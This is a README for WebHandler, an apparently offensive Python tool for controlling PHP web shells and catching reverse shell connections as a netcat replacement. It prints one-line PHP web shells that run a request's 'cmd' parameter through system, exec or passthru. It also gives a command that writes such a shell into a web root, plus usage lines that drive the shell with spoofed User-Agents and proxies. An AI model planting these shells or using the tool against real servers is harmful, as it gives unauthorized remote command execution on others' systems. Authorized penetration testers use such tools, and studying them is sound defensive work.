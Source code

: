 # WebHandler #
## _A hanlder for PHP system functions & alternative 'netcat listener'_ ##
---
![My image](http://s12.postimage.org/t5ujo2om5/Untitled_1.png)

### Info ###
---
WebHandler tries to simulate a 'Linux bash prompt' to handle and  process:
    - PHP _program execution functions_ (e.g. `system`, `passthru`, `exec`, etc)
    - Reserve shell connections (e.g. `nc -lvvp 1234`)

Another feature is to spoof "User-Agent" in the HTTP header. (--random-angent)
It also supports HTTP proxies (proxy http://<ip>:<port>

* WebHandler works for **POST** and **GET** requests:
    - `<?php system($_GET['cmd']); ?>`
    - `<?php exec($_POST['cmd']); ?>`
    - `<?php passthru($_REQUEST['cmd']); ?>`

* WebHandler is a replacement for netcat with a reverse connection:
    - `netcat -l -p 1234`
    - `nc -lvvp 4321`

### Usage ###
---
* --Example file
    - `echo '<?php system($_GET['cmd']); ?>' > /var/www/shell.php`

* --url is a required argument when sending either GET or POST requests (e.g. a bind 'web based PHP' connection):
    - `python webhandler.py --url http://www.mywebsite.com/shell.php?cmd=`
    - `python webhandler.py --url http://www.mywebsite.com/shell.php --method POST --parameter cmd`
    - `python webhandler.py -u http://www.mywebsite.com/shell.php?cmd= --random-agent --turbo`
    - `python webhandler.py -u http://www.mywebsite.com/shell.php?cmd= --proxy http://127.0.0.1:8080`

* --listen is a required argument when working waiting connection (e.g. a reverse 'raw' connection):
    - `python webhandler.py --listen 1234`

### Dependencies
---
If your [Python][]'s version < 2.7.x, then [argparse][] **is required**.
To install it run: `sudo (apt-get|yum) install python-setuptools && sudo easy_install argparse` **OR** `sudo pip --install argparse`

[readline][] **is optional**.
This module it used to provide elaborate line editing and history features

[git][] **is optional**.
This allows for the project to be kept up-to-date

### Links
---
[Wiki][]

[Known Bugs][]

[Python]: http://www.python.org/download/
[argparse]: http://docs.python.org/library/argparse.html
[readline]: http://cnswww.cns.cwru.edu/php/chet/readline/rltop.html
[git]: http://git-scm.com
[Wiki]: https://github.com/lnxg33k/webhandler/wiki
[Known Bugs]: https://github.com/lnxg33k/webhandler/issues
